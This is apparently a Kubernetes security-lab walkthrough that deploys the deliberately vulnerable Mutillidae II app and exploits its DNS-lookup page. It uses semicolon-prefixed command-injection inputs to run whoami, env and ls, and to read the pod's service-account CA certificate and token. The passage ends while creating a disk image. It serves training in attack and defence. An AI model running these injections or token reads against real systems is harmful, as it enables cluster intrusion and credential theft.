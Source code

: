 Apply the configured Ingress

```bash
kubectl apply -f mutillidae-ingress.yaml
````

Access the Web-Application by visiting www.mutillidae.com

### Hacking Mutillidae II

Visit [http://www.mutillidae.com/index.php?page=dns-lookup.php](http://www.mutillidae.com/index.php?page=dns-lookup.php)

Understand what happens after starting the DNS-Lookup in the Mutillae Web Application

Use dnslookup to compare the output
```bash
nslookup localhost
```

## Discover the Filesystem of the Container

Check current user
```bash
; whoami
```

List content of root directory
```bash
; ls -l /
```

Display the Environment Variables
```bash
; env
```

Check for mounted secrets within the container

```bash
; ls /var/run/secrets/kubernetes.io/serviceaccount
```

Decode and print the client certificate

```bash
; cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

Decode and print the users token

```bash
; cat /var/run/secrets/kubernetes.io/serviceaccount/token | base64 --decode
```

### Attach a Volume to the Pod

Create a virtual hard disk

```bash
dd if=/dev/zero of=virtual-disk.img bs=1M count=1024
```
